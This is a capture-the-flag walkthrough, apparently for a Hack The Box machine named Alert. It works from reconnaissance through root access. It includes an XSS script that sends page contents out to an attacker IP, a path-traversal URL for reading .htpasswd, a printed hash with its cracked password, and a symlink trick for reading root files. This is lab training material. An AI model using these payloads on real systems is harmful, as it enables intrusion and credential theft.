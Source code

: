 

1.  RUN: **nmap -sV -Pn alert.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png)

2.  Open **HTTP://alert.htb:80**

![](images/media/image2.png)

**INFO:** According to title Alert, it should be XSS vulnerability

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://alert.htb -H \"Host:FUZZ.alert.htb\" -ac**

> ![](images/media/image3.png)

1.  On Kali VM: Start HTTP-Server RUN: **python -m http.server 80**

![](images/media/image4.png)

2.  Create **XSS_payload.md** file

- Paste script in it

- In LINE 5, Replace IP with local Kali VM IP

![](images/media/image5.png)

**Source: <https://github.com/sh3bu/CVE-2024-41662>**

**Script:**

[\<script\>]{.mark}

[fetch(\"http://alert.htb/index.php?page=messages\")]{.mark}

[.then(response =\> response.text()) // Convert the response to
text]{.mark}

[.then(data =\> {]{.mark}

[fetch(\"http://10.10.14.201/?data=\" +
encodeURIComponent(data));]{.mark}

[})]{.mark}

[.catch(error =\> console.error(\"Error fetching the messages:\",
error));]{.mark}

[\</script\>]{.mark}

- Upload to markdown website

![](images/media/image6.png)

Result

![](images/media/image7.png)

Easier to read with <https://www.urldecoder.org/>

3.  Start **python -m http.server 9001** or nc -lvnp 9001

![](images/media/image8.png)

4.  PATCH TRAVERSAL: Create modified script

<http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd>

![](images/media/image9.png)

5.  Upload that script on Website
    [**http://alert.htb**](http://alert.htb)

**Click View Markdown**

![](images/media/image10.png)

Right click -\> copy link

6.  ![](images/media/image11.png){width="4.119104330708661in"
    height="3.6359995625546806in"}![](images/media/image12.png){width="4.11875in"
    height="1.044669728783902in"}

7.  Upload copied LINK to **Contact** on
    **<http://alert.htb>/index.php?page=contact**

![](images/media/image13.png)

8.  After you click on SEND, you'll get the displayed in Kali VM, the
    **[HASH Password]{.mark}**

**%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A**

![](images/media/image14.png)

9. Convert it to cleartext on
    [www.urldecoder.org](http://www.urldecoder.org) or CyberChef
    <https://gchq.github.io/CyberChef>

![](images/media/image15.png)

10. Create file **alert.hash** and paste hash in it

11. Crack it with **hashcat alert.hash /home/kali/Desktop/rockyou.txt**

![](images/media/image16.png)

-Login with **User:** albert **Password:** manchesterunited and display
**[user.txt FLAG]{.mark}**

RUN: cat user.txt

**[PRIVILEGE ESCALATION]{.underline}**

12. Transfer **linpeas.sh** to Server RUN: **scp linpeas.sh
    <albert@alert.htb>:**

**INFO:** Terminal has to be opened in same directory as file linpeas.sh

![](images/media/image17.png)

13. On server RUN: **./linpeas.sh**

- **Port 8080 is open**

![](images/media/image18.png)

Look for interesting paths, like **/opt/ [(NEEDED in STEP 19)]{.mark}**

![](images/media/image19.png)

14. PORT FORWARDING: **ssh -L 8080:127.0.0.1:8080 <albert@alert.htb>**

![](images/media/image20.png)

15. Firefox access **127.0.0.1:8080**

![](images/media/image21.png)

16. Change directory to /opt/website-monitor and list all files

-RUN: **cd /opt/website-monitor**

-RUN: **ls -la**

**INFO: ls -la** is a very useful command for **getting a detailed view
of the files and directories** in a given location, **including hidden
files and their permissions, ownership, sizes, and modification times.**

**-**Explore the **/opt/website-monitor** directory. Investigate, how
the application works. Check which directories have write permission

![](images/media/image22.png)

17. You will see the contents of the monitors directory. You can open
    these files through the browser.

Open following in Browser: **http://127.0.0.1:8080/monitors/alert.htb**

![](images/media/image23.png)

18. The application is running under the root user so you should be able
    to read the **/etc/shadow** or **/root/root.txt**. Just create a
    symlink in the **monitors** directory and call it **root.txt**

- To create SYMBOLIC LINK, RUN: **ln -s /root/root.txt root.txt**

![](images/media/image24.png)

[Root.txt FLAG]{.mark}
